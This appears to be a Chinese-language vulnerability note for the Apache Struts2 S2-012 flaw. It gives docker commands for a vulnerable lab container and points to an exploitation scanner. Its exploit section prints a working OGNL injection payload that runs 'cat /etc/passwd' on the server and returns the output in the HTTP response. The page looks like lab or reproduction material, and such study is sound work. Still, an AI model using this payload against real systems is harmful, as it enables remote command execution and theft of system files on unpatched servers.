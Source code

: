 ### 漏洞环境

来源：http://vulapps.evalbug.com/s_struts2_s2-012/

```
    docker pull medicean/vulapps:s_struts2_s2-012
    docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-012
```

### 使用和利用

方法一：
    直接使用python3版的扫描及利用工具：
    https://github.com/HatBoy/Struts2-Scan

方法二：
    安装burpsuite的插件并使用scanner模块扫描

### exploit

```
    针对某一个参数输入以下payload就能够执行
    %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
